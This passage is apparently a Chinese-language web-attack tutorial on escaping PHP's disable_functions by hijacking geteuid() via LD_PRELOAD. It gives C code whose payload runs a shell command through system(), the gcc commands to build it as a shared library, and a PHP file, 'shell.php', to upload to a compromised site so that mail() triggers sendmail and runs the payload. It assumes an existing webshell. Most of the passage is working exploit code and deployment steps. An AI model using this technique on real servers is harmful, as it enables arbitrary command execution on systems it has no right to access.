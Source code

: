 使用命令`readelf -Ws /usr/sbin/sendmail`可以看到sendmail调用了哪些库函数,这里选择`geteuid`

![](https://gitee.com/fuli009/images/raw/master/public/20210820102315.png)

  

![]()

创建一个`test.c`文件,并定义一个`geteuid`函数,目的是劫持该函数。

    
    
    #include <stdlib.h>  
    #include <stdio.h>  
    #include <string.h>  
    void payload() {  
        system("whoami > /var/tmp/sd.txt");  
    }  
    int geteuid()  
    {  
        if (getenv("LD_PRELOAD") == NULL) { return 0; }  
        unsetenv("LD_PRELOAD");  
        payload();  
    }  
    

使用gcc编译为.so文件

    
    
    gcc -c -fPIC test.c -o test  
    gcc -shared test -o test.so  
    

这里有个坑:不要在windows上编译,编译出来是MZ头,不是ELF。

然后再上传test.so到指定目录下。

最后创建`shell.php`文件,上传到网站目录下,这里.so文件路径要写对。

    
    
    <?php  
    putenv("LD_PRELOAD=/var/www/test.so");  
    mail("","","","","");  
    ?>  
    

再理一下整个过程:当我们访问shell.php文件的时候,先会将`LD_PRELOAD`路径设置为恶意的.so文件，然后触发mail()函数,mail函数会调用sendmail函数,sendmail函数会调用库函数geteuid,而库函数geteuid已经被优先加载,这时执行geteuid就是执行的我们自己定义的函数,并执行payload(),也就是代码中的`whoami`命令写入到sd.txt中。

由于拿到的webshell很有可能是`www-data`这种普通权限。整个过程要注意权限问题,要可写的目录下。

![](https://gitee.com/fuli009/images/raw/master/public/20210820102316.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210820102317.png)

web访问页面没有文件写出,可以看看定义的目录是否有权限。
